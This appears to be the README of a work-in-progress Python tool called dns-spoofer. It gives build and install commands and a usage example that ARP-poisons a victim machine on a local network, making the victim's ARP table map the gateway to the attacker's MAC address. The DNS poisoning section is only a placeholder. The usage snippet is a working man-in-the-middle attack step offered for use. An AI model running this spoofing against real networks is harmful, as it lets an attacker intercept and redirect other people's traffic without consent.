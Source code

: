 Work In Progress

### Dependencies
* libnet-dev


### Install
I recommend using a virtualenv for this.
```bash
git clone https://github.com/adw1n/dns-spoofer
cd dns-spoofer
python setup.py build
python setup.py install  # or add dnsspoofer.so to the PYTHONPATH
```

### Usage

#### ARP poisoning
```python
sudo python  # dnsspoofer requires root privileges
import dnsspoofer
# your mac addr:
# 33:33:33:33:33:33
# example arp -n output:
# gateway:
# 192.168.1.1     ether   10:20:30:40:50:60   C  em1
# victim:
# 192.168.1.100   ether   01:02:03:04:05:06   C  em1
dnsspoofer.spoof_arp(b"\x01\x02\x03\x04\x05\x06",b"192.168.1.1")
# now arp -n output on the victim machine:
# 192.168.1.1     ether   33:33:33:33:33:33   C  em1
```

#### DNS poisoning
TODO
